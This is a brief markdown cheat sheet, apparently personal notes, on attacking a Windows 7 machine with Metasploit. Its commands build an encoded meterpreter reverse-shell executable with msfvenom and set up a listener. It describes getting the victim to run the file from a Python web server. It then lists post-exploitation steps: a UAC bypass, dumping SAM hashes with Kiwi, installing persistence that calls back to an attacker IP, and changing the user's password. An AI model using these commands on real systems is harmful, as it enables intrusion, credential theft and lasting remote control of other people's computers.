# Metasploit Basics #
OS Windows 7
- - - - 

#### 1. Create the .exe with Venom ####

    msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.2.6 lport=4444 -e x86/shikata_ga_nai -f exe > /root/Desktop/socks.exe
    msfvenom -p windows/meterpreter/reverse_tcp lhost={Your IP} lport={Port number} -e x86/shikata_ga_nai -f exe > {File's path}


#### 2. On metasploit, select the payload ####

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
Configure the settings
<code>show options</code> and <code>exploit</code>.

#### 3. It's necesary to execute the file on the victim's computer ####
Use <code>python -m SimpleHTTPServer 80</code> to have an easy acces to your file wihtout the need of download it.
Run your file through any browser on victim's computer using your IP and the connection should be established.


Then do anything you want with the computer's victim, remember alway use:
>   <code>show options</code> to configure the settings.  

>   <code>background</code> to set the current session on background.

>   <code>sessions</code> list all the active sessions.

>   <code>exploit</code> or <code>run</code> execute the exploit.



#### Get system credentials #### 
    use exploit/windows/local/bypassuac
#### Use Kiwi to get all the hashes ####
    load kiwi
    lsa_dump_sam
#### Make a permantent connection with the victim ####
    run persistence -U -i 5 -p 4444 -r 192.168.0.3
    run persistence -U -i {Intervale time} -p {port} -r {lhost IP}
#### Change user password ####
    use windows/manage/change_password
